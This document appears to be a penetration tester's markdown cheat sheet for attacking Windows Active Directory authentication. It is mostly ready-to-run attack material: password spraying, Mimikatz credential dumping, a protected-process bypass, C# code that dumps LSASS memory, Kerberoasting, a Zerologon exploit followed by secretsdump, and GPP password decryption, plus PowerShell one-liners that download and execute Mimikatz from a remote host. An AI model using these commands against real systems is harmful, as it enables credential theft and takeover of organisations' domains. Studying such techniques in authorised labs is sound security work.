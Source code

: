 # Authentication

<details>

<summary>Password Spraying</summary>

```bash
crackmapexec smb 192.168.165.122 -u user.txt -p password --continue-on-success 
```

</details>

<details>

<summary>Dumping Creds (Mimikatz Commands)</summary>

**ALWAYS OPEN WITH ADMIN CMD.EXE**

```bash
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
 # IF ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005) --> Need bypass PPL
lsadump::sam
lsadump::secrets
lsadump::cache
```

```powershell
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-PowerDump.ps1 -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```

* If mimikatz is not dumping out required hashes/passwords, can try `mimikatz_2_1_1_x64.exe` (version 2.1.1). From [here](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip).

</details>

<details>

<summary>Getting Past Protected Process Light (PPL) for Mimikatz</summary>

* Detecting LSASS executing as Protected Process Light?

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

* How to workaround?
  * Must download mimidrv.sys in the same folder as mimikatz.exe&#x20;

<pre><code><strong>mimikatz # !+
</strong>mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
</code></pre>

</details>

<details>

<summary>Mimikatz from dmp file</summary>

<pre><code><strong>using System;
</strong>using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
          IntPtr hFile, int DumpType, IntPtr ExceptionParam,
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
</code></pre>

* Release --> x64 --> .\Minidump.exe from local admin account&#x20;
* Lsass.dmp is saved in C:\Windows\tasks

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Service Accounts Attacks</summary>

* When user wants to access resource hosted by SPN, client requirests a service ticket that is generated by DC
* Service ticket is encrypted through the password hash of the SPN&#x20;
* Application server then decrypt and validate the service ticket

```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

* The following command will display all cached Kerberos tickets for the current user.

```powershell
klist
```

* To download the service ticket with `mimikatz`

```
privilege::debug
```

```powershell
kerberos::list /export
```

* To crack the service ticket to obtain cleartext password

```bash
sudo apt update && sudo apt install kerberoast
```

```bash
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

</details>

<details>

<summary>Abusing TGT and TGS tickets</summary>

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::tickets
```

</details>

<details>

<summary>To dump the credentials of all logged-on users</summary>

```bash
mimikatz.exe
```

To engage the SeDebugPrivlege privilege, which will allow us to interact with a process owned by another account.

```sh
privilege::debug
```

```
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Dump Machine Acc's hashes</summary>

```bash
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
rpcdump.py <IP>|grep MS-RPRN
# https://github.com/NotMedic/NetNTLMtoSilverTicket
python dementor.py -u Guest -p ''  <target> <responder>
```

</details>

<details>

<summary>Zerologon</summary>

* Quick Win

[https://github.com/risksense/zerologon/blob/master/set\_empty\_pw.py](https://github.com/risksense/zerologon/blob/master/set_empty_pw.py)

<pre class="language-bash"><code class="lang-bash">python3 set_empty_pw.py DC01 192.168.194.165
<strong>secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
</strong><strong># secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'htb.local/forest$@10.10.10.161'
</strong></code></pre>

</details>

<details>

<summary>GPP Passwords</summary>

* When new Group Policy Preference is created --> XML file in SYSVOL share (Groups.xml) will contain all config data (including passwords)
* Microsoft patched it in 2014 to prevent admins from putting passwords into GPP&#x20;

```xml
# Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# GPPstillStandingStrong2k18
```

</details>

